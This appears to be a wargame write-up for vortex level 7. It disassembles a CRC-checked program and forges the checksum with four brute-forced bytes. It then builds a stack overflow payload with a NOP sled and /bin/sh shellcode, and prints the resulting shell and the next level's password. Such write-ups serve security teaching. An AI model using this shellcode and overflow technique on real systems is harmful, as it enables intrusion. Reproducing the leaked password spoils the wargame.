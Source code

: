 looking at the c file:
```c
int main(int argc, char **argv)
{
        char buf[58];
        u_int32_t hi;
        if((hi = crc32(0, argv[1], strlen(argv[1]))) == 0xe1ca95ee) {
                strcpy(buf, argv[1]);
        } else {
                printf("0x%08x\n", hi);
        }
}
```
http://www.woodmann.com/fravia/crctut1.htm

Dump of assembler code for function crc32:
```assembly
   0x0804847d <+0>:     push   ebp
   0x0804847e <+1>:     mov    ebp,esp
   0x08048480 <+3>:     sub    esp,0x10
   0x08048483 <+6>:     mov    eax,DWORD PTR [ebp+0xc]		
   0x08048486 <+9>:     mov    DWORD PTR [ebp-0x4],eax
   0x08048489 <+12>:    jmp    0x80484b2 <crc32+53>
   0x0804848b <+14>:    mov    eax,DWORD PTR [ebp-0x4]		#= bytestr
   0x0804848e <+17>:    lea    edx,[eax+0x1]			#= bytestr+1
   0x08048491 <+20>:    mov    DWORD PTR [ebp-0x4],edx		#var+=1
   0x08048494 <+23>:    movzx  eax,BYTE PTR [eax]		
   0x08048497 <+26>:    movzx  eax,al				#=bytestr[i]
   0x0804849a <+29>:    xor    eax,DWORD PTR [ebp+0x8]		#xor with ans
   0x0804849d <+32>:    movzx  eax,al
   0x080484a0 <+35>:    mov    eax,DWORD PTR [eax*4+0x8048600]	#eax = crc_table[eax]
   0x080484a7 <+42>:    mov    edx,DWORD PTR [ebp+0x8]		#edx = ans
   0x080484aa <+45>:    shr    edx,0x8
   0x080484ad <+48>:    xor    eax,edx				#xor ans with crc_table
   0x080484af <+50>:    mov    DWORD PTR [ebp+0x8],eax		#store ans
   0x080484b2 <+53>:    sub    DWORD PTR [ebp+0x10],0x1		#len--
   0x080484b6 <+57>:    cmp    DWORD PTR [ebp+0x10],0x0		#cmp len to 0
   0x080484ba <+61>:    jns    0x804848b <crc32+14>
   0x080484bc <+63>:    mov    eax,DWORD PTR [ebp+0x8]
   0x080484bf <+66>:    leave  
   0x080484c0 <+67>:    ret
```
the crc table:
```assembly
0x8048600 <crc32_table>:        0x00000000      0x77073096      0xee0e612c      0x990951ba
0x8048610 <crc32_table+16>:     0x076dc419      0x706af48f      0xe963a535      0x9e6495a3
0x8048620 <crc32_table+32>:     0x0edb8832      0x79dcb8a4      0xe0d5e91e      0x97d2d988
0x8048630 <crc32_table+48>:     0x09b64c2b      0x7eb17cbd      0xe7b82d07      0x90bf1d91
0x8048640 <crc32_table+64>:     0x1db71064      0x6ab020f2      0xf3b97148      0x84be41de
0x8048650 <crc32_table+80>:     0x1adad47d      0x6ddde4eb      0xf4d4b551      0x83d385c7
0x8048660 <crc32_table+96>:     0x136c9856      0x646ba8c0      0xfd62f97a      0x8a65c9ec
0x8048670 <crc32_table+112>:    0x14015c4f      0x63066cd9      0xfa0f3d63      0x8d080df5
0x8048680 <crc32_table+128>:    0x3b6e20c8      0x4c69105e      0xd56041e4      0xa2677172
0x8048690 <crc32_table+144>:    0x3c03e4d1      0x4b04d447      0xd20d85fd      0xa50ab56b
0x80486a0 <crc32_table+160>:    0x35b5a8fa      0x42b2986c      0xdbbbc9d6      0xacbcf940
0x80486b0 <crc32_table+176>:    0x32d86ce3      0x45df5c75      0xdcd60dcf      0xabd13d59
0x80486c0 <crc32_table+192>:    0x26d930ac      0x51de003a      0xc8d75180      0xbfd06116
0x80486d0 <crc32_table+208>:    0x21b4f4b5      0x56b3c423      0xcfba9599      0xb8bda50f
0x80486e0 <crc32_table+224>:    0x2802b89e      0x5f058808      0xc60cd9b2      0xb10be924
0x80486f0 <crc32_table+240>:    0x2f6f7c87      0x58684c11      0xc1611dab      0xb6662d3d
0x8048700 <crc32_table+256>:    0x76dc4190      0x01db7106      0x98d220bc      0xefd5102a
0x8048710 <crc32_table+272>:    0x71b18589      0x06b6b51f      0x9fbfe4a5      0xe8b8d433
0x8048720 <crc32_table+288>:    0x7807c9a2      0x0f00f934      0x9609a88e      0xe10e9818
0x8048730 <crc32_table+304>:    0x7f6a0dbb      0x086d3d2d      0x91646c97      0xe6635c01
0x8048740 <crc32_table+320>:    0x6b6b51f4      0x1c6c6162      0x856530d8      0xf262004e
0x8048750 <crc32_table+336>:    0x6c0695ed      0x1b01a57b      0x8208f4c1      0xf50fc457
0x8048760 <crc32_table+352>:    0x65b0d9c6      0x12b7e950      0x8bbeb8ea      0xfcb9887c
0x8048770 <crc32_table+368>:    0x62dd1ddf      0x15da2d49      0x8cd37cf3      0xfbd44c65
0x8048780 <crc32_table+384>:    0x4db26158      0x3ab551ce      0xa3bc0074      0xd4bb30e2
0x8048790 <crc32_table+400>:    0x4adfa541      0x3dd895d7      0xa4d1c46d      0xd3d6f4fb
0x80487a0 <crc32_table+416>:    0x4369e96a      0x346ed9fc      0xad678846      0xda60b8d0
0x80487b0 <crc32_table+432>:    0x44042d73      0x33031de5      0xaa0a4c5f      0xdd0d7cc9
0x80487c0 <crc32_table+448>:    0x5005713c      0x270241aa      0xbe0b1010      0xc90c2086
0x80487d0 <crc32_table+464>:    0x5768b525      0x206f85b3      0xb966d409      0xce61e49f
0x80487e0 <crc32_table+480>:    0x5edef90e      0x29d9c998      0xb0d09822      0xc7d7a8b4
0x80487f0 <crc32_table+496>:    0x59b33d17      0x2eb40d81      0xb7bd5c3b      0xc0ba6cad
0x8048800 <crc32_table+512>:    0xedb88320      0x9abfb3b6      0x03b6e20c      0x74b1d29a
0x8048810 <crc32_table+528>:    0xead54739      0x9dd277af      0x04db2615      0x73dc1683
0x8048820 <crc32_table+544>:    0xe3630b12      0x94643b84      0x0d6d6a3e      0x7a6a5aa8
0x8048830 <crc32_table+560>:    0xe40ecf0b      0x9309ff9d      0x0a00ae27      0x7d079eb1
0x8048840 <crc32_table+576>:    0xf00f9344      0x8708a3d2      0x1e01f268      0x6906c2fe
0x8048850 <crc32_table+592>:    0xf762575d      0x806567cb      0x196c3671      0x6e6b06e7
0x8048860 <crc32_table+608>:    0xfed41b76      0x89d32be0      0x10da7a5a      0x67dd4acc
0x8048870 <crc32_table+624>:    0xf9b9df6f      0x8ebeeff9      0x17b7be43      0x60b08ed5
0x8048880 <crc32_table+640>:    0xd6d6a3e8      0xa1d1937e      0x38d8c2c4      0x4fdff252
0x8048890 <crc32_table+656>:    0xd1bb67f1      0xa6bc5767      0x3fb506dd      0x48b2364b
0x80488a0 <crc32_table+672>:    0xd80d2bda      0xaf0a1b4c      0x36034af6      0x41047a60
0x80488b0 <crc32_table+688>:    0xdf60efc3      0xa867df55      0x316e8eef      0x4669be79
0x80488c0 <crc32_table+704>:    0xcb61b38c      0xbc66831a      0x256fd2a0      0x5268e236
0x80488d0 <crc32_table+720>:    0xcc0c7795      0xbb0b4703      0x220216b9      0x5505262f
0x80488e0 <crc32_table+736>:    0xc5ba3bbe      0xb2bd0b28      0x2bb45a92      0x5cb36a04
0x80488f0 <crc32_table+752>:    0xc2d7ffa7      0xb5d0cf31      0x2cd99e8b      0x5bdeae1d
0x8048900 <crc32_table+768>:    0x9b64c2b0      0xec63f226      0x756aa39c      0x026d930a
0x8048910 <crc32_table+784>:    0x9c0906a9      0xeb0e363f      0x72076785      0x05005713
0x8048920 <crc32_table+800>:    0x95bf4a82      0xe2b87a14      0x7bb12bae      0x0cb61b38
0x8048930 <crc32_table+816>:    0x92d28e9b      0xe5d5be0d      0x7cdcefb7      0x0bdbdf21
0x8048940 <crc32_table+832>:    0x86d3d2d4      0xf1d4e242      0x68ddb3f8      0x1fda836e
0x8048950 <crc32_table+848>:    0x81be16cd      0xf6b9265b      0x6fb077e1      0x18b74777
0x8048960 <crc32_table+864>:    0x88085ae6      0xff0f6a70      0x66063bca      0x11010b5c
0x8048970 <crc32_table+880>:    0x8f659eff      0xf862ae69      0x616bffd3      0x166ccf45
0x8048980 <crc32_table+896>:    0xa00ae278      0xd70dd2ee      0x4e048354      0x3903b3c2
0x8048990 <crc32_table+912>:    0xa7672661      0xd06016f7      0x4969474d      0x3e6e77db
0x80489a0 <crc32_table+928>:    0xaed16a4a      0xd9d65adc      0x40df0b66      0x37d83bf0
0x80489b0 <crc32_table+944>:    0xa9bcae53      0xdebb9ec5      0x47b2cf7f      0x30b5ffe9
0x80489c0 <crc32_table+960>:    0xbdbdf21c      0xcabac28a      0x53b39330      0x24b4a3a6
0x80489d0 <crc32_table+976>:    0xbad03605      0xcdd70693      0x54de5729      0x23d967bf
0x80489e0 <crc32_table+992>:    0xb3667a2e      0xc4614ab8      0x5d681b02      0x2a6f2b94
0x80489f0 <crc32_table+1008>:   0xb40bbe37      0xc30c8ea1      0x5a05df1b      0x2d02ef8d
```

now, after doing some research involving Galios Field and modulu over iriducible polynomial, we arrive at the conclution that appending 4 bytes  
ought to be enough to completely change the CRC to our willling, so using our modern computer we can cover 2^32 options pretty fast, hence we'll   write a bruteforce code ==> in C for the best possible speed...  

lets build our buffer overflow:  
return address - 0xffffd6b0  
payload - "\x90" * 50 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"  
buffer - anything, must be of certian length:  
	we know that buff is 58 bytes long and starts at $esp+0x12...  
	at $esp+0x12+74 we have a return address to overwrite --> we need 74 bytes of buffer, followed by the address...  
	so we get: "A"*74 + "\xb0\xd6\xff\xff"  
total:  
"A"*74 + "\xb0\xd6\xff\xff"+"\x90" * 50+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"+<4-bytes buffer>  

using the brute force code (vortex7.c) we get (max runtime is about 50 mins - avg is 25 mins):  

"A"*74 + "\xb0\xd6\xff\xff"+"\x90" * 50+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"+"\x2f\x0b\x41\xb9"  

we get:  
$ whoami
vortex8
$ cat /etc/vortex_pass/vortex8
X70A_gcgl






